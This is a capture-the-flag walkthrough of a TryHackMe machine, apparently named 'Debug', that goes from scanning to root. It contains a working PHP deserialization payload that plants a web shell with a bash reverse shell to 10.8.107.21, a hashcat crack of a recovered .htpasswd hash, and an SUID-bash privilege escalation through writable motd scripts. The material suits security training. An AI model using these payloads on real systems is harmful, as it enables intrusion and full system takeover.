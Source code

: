 > Debug

# Rustscan

rustscan -a $IP --ulimit=5000 -b 4500 -- -sC -sV -Pn -A | tee rustscan.log


```
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

# Gobuster

gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster/initial -x txt,php,sql,bak,zip,bin,tar,js

```
/index.php (Status: 200)
/javascript (Status: 301)
/message.txt (Status: 200)
/backup (Status: 301)
/grid (Status: 301)
```

## message.txt

```
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
Message From :  || From Email :  || Comment : 
```

## /backup

We got 2 interesting backup files `index.html.bak` and `index.php.bak`. Inspecting .php files shows us an interesting information!!🚑

```
// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();
```

Here is a class called FormSubmit with a `__destruct` function implemented. This function is what we can use to get RCE. The function uses `file_put_contents` to write the variable message to the file defined in the variable `form_file`. If we go over to the URI IP/message.txt and we got some 200 respond which is success.

## Payload

```
php -a
class FormSubmit {
  public $form_file = 'shell.php';
  public $message = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.8.107.21/1234 0>&1\'"); ?>';
  }

print urlencode(serialize(new FormSubmit));
```

And we can curl the payload. `curl -i $IP/index.php?debug=O%3A10%3A%22FormSubmit%22%3A2%3A%7Bs%3A9%3A%22form_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A7%3A%22message%22%3Bs%3A73%3A%22%3C%3Fphp+exec%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E+%2Fdev%2Ftcp%2F10.8.107.21%2F1234+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D`

Let's curl `curl $IP/shell.php` and we got a reverse shell!!! We got a .htpasswd file in www-data.

## .htpasswd 

```
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
```

# Cracking using hashcat

hashcat -m 1600 hash /usr/share/wordlists/rockyou.txt

```
jamaica
```

# user.txt

```
7e37c84a66cc40b1c6bf700d08d28c20
```

# Priv-Esc

## Note-To-James.txt 

```
Dear James,

As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 

But there's still one thing I'd like you to do, before the submission.

Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```

So, we have to edit `/etc/update-motd.d`. We have all access to those files.

# Exploit

```
echo "cp /bin/bash /home/james/bash && chmod u+s /home/james/bash" >> 00-header
# Log out and login again
./bash -p
```

# root.txt

```
3c8c3d0fe758c320d158e32f68fabf4b
```